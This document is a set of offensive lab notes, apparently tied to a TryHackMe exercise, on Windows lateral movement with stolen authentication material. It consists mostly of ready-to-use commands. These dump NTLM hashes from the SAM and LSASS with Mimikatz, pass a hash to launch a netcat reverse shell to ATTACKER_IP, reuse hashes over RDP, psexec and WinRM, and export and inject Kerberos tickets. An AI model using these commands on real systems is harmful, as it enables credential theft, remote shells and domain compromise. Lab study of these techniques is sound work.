 ## 3. Use of Alternate Authentication Material

### 3.1. NTLM Authentication

#### 3.1.1. Pass-the-Hash

* On the victim Windows machine:

```powershell
# Mimikatz

# extract NTLM hashes from the local SAM
> privilege::debug
> token::elevate
> lsadump::sam

# extract NTLM hashes from LSASS memory
> privilege::debug
> token::elevate
> sekurlsa::msv

# use the extracted hashes to perform a pass the hash attack
# by using mimikatz to inject an access token for the victim user on a reverse shell
> token::revert
> sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

* On the attacker machine - start a listener to receive the reverse shell:

```bash
$ nc -lvp 5555
```

Passing the hash - different tools have built-in support using different protocols:

```bash
# connect to RDP using PtH:
$ xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

# connect via psexec using PtH:
$ psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

# connect to WinRM using PtH:
$ evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

### 3.2. Kerberos Authentication

#### 3.2.1. Pass-the-Ticket

```powershell
# mimikatz
> privilege::debug
> sekurlsa::tickets /export

> kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi

# check if tickets were correctly injected after exiting mimikatz and using cmd:
> klist
```
